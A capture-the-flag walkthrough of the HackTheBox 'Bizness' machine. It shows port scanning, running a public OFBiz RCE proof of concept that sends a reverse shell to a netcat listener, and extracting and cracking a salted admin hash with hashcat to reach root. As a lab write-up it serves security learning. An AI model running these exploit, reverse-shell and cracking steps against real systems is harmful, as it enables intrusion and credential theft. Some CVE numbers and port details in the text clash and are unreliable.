






+++ 
draft = false
date = 2024-02-02T13:07:16+01:00
title = "Bizness HTB Walkthrough"
description = ""
slug = ""
authors = ["Dennis Drebitca"]
tags = ["Hash cracking", "Hashcat", "CVE-2023-51457", "Dirsearch"]
categories = []
externalLink = ""
series = []
+++


[comment]: <> (Insertar imagen de la carátula de la máquina)


The Bizness HTB machine is an easy difficulty level HackTheBox Machine. The main techniques and tools used to crack this machine are:

        - Dirsearch
        - CVE-2023-51467
        - Grep, find and strings
        - Hashcat


## Reconnaissance

We start a broad Nmap scan by executing the following command:

```sh
sudo nmap -sS -T5 -vvv -p- 10.10.11.252 -Pn -oG nmap_inicial
```

Where the arguments mean:

    -sS: SYN port scan
    -T5: Using timing template 5 of NMAP
    -vvv: Triple verbose so NMAP prints a lot of information
    -p-: All ports are scanned
    -Pn: Skips Host Discovery
    -oG: Grep Format

The scan returns the following information:



It looks like ports 20 and 80 and 443 are open. Classic open ports for SSH and HTTP/HTTPS. Next, we run a more comprehensive scan on the open ports:

```sh
sudo nmap -sCV -p22,80,443 10.10.11.252 -oN nmap_exhaustivo -v
```

Now the arguments used mean:

    -sCV: Launches all scanning scripts to discover services and versions running on these ports
    -oN: Normal output format
    -v: Single verbose

The results for this second scan are the following:



## Directory discovery

Now lets try to enumerate subdirectories via brute force with Dirsearch, a open-source python tool that can be found in [GitHub](https://github.com/maurosoria/dirsearch.git). 

First, we add the website to our /etc/hosts file and then we run the following command:

```sh
dirsearch -u https://bizness.htb/ --exclude-status 403,404
```


The directory bruteforce reveals the /control/login page. There is nothing of interest besides the login and Join HTB buttons. 


On the down right corner, we can see the release of the OFBiz software.


Doing some investigation, it turns out that Ofbiz is vulnerable to a authentication bypass and RCE because of [CVE-2023-51467](https://www.cvedetails.com/cve/CVE-2023-51467/ "CVE-2023-51467 security vulnerability details"). 

## Initial access

First we clone a [GitHub PoC](https://github.com/abdoghazy2015/ofbiz-CVE-2023-49070-RCE-POC) for CVE-2023-51457 written by the researcher abdoghazy2015. Then, for the PoC to work, we have to download ysoserial-all.jar into the same folder.

```sh
wget https://github.com/frohoff/ysoserial/releases/latest/download/ysoserial-all.jar
```

The script doesnt work out of the box. However, its because its written to run with openjdk 11. We have the install that version specifically:

```sh
sudo apt-install openjdk-11-jdk
sudo apt-install openjdk-11-jre
```

And then we have to select java 11 by running

```sh
sudo update-alternatives --config java 
```

Now we are ready to execute the exploit. We have to run set up a netcat listener in another terminal by running:

```sh
nc -lvnp 1234
```

This is where we are going to catch the reverse shell. Now, to run the exploit, execute:

```python
python3 exploit.py https://bizness.htb shell 10.10.14.75:1234
```



We get the reverse shell.


The user flag can be obteined in the /home/ofbiz directory.


## Privilege escalation

We now have to enumerate this machine. A quick and easy way is to use the find and grep tools to search for files containing interesting strings like admin and password. If we run the following command...

```sh
find . -type f -name '*Admin*'
```
...we can search for a file that has the string "Admin" in its name. This is how we discover a interesting file:




By reading the file /framework/resources/templates/AdminUserLoginData.xml, we get some sort of password... but both Hashcat and JohnTheRipper fail to crack it. It might be a salted password, but we have to keep searching in any case.

There is also a Derby database in the machine. There is a lot of data and files, so we need to search efficiently using strings and grep.

```sh
strings -f * | grep -iE "pass"
```



It looks like we got another password, in this case it contains the salt. It is the data between the two dollar signs. In this case, the salt is \$d\$.

```sh
$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I
```

We have to sanitize the hash first, since it looks encoded. We can use [cyberchef](https://gchq.github.io/CyberChef):


Now that we have the hash sanitized, its time to crack it using hashcat.

```sh
echo "b8fd3f41a541a435857a8f3e751cc3a91c174362:d" > hash
```

```sh
hashcat -m 120 -a 0 -d 1 ./hash /usr/share/wordlists/rockyou.txt 
```

We have to use mode 120 for the format of hash that we provided. In this case, it is a SHA1 hash, and the hash format is hash:salt.


We got the password!! Now we just have to run su and enter the password to get a root terminal.


Lastly, we can grab the root flag and the machine is done!!


